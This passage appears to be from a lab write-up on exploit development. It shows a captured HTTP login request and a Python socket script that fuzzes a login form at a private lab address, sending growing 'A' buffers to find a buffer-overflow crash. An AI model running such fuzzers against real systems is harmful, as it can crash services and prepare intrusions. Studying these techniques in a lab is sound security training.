 ```
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en
Referer: http://192.168.1.5/login
Accept-Encoding: gzip, deflate
dnt: 1

username=asd&password=1234
```
{% endcode %}

i'll try make request using SOCKT

```python
#!/usr/bin/python3
import socket
import time
import sys

c = 100
while c < 2000:
    try:
        print(f"\nSending evil buffer with {c} bytes")
        inputBuffer = "A" * c
        payload = f"username={inputBuffer}&password=A"
        
        req = (
            "POST /login HTTP/1.1\r\n"
            "Host: 192.168.1.5\r\n"
            "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
            "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
            "Accept-Language: en-US,en;q=0.5\r\n"
            "Referer: http://192.168.1.5/login\r\n"
            "Connection: close\r\n"
            "Content-Type: application/x-www-form-urlencoded\r\n"
            f"Content-Length: {len(payload)}\r\n"
            "\r\n"
            f"{payload}"
        )

        print(req)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.1.5", 80))
        s.sendall(req.encode())
        response = s.recv(1024)
        print(response.decode())
        s.close()
        c += 100
        time.sleep(5)
    except Exception as e:
        print(f"Fuzzing crashed at {c} bytes")
        print(f"Error: {e}")
        sys.exit()

```
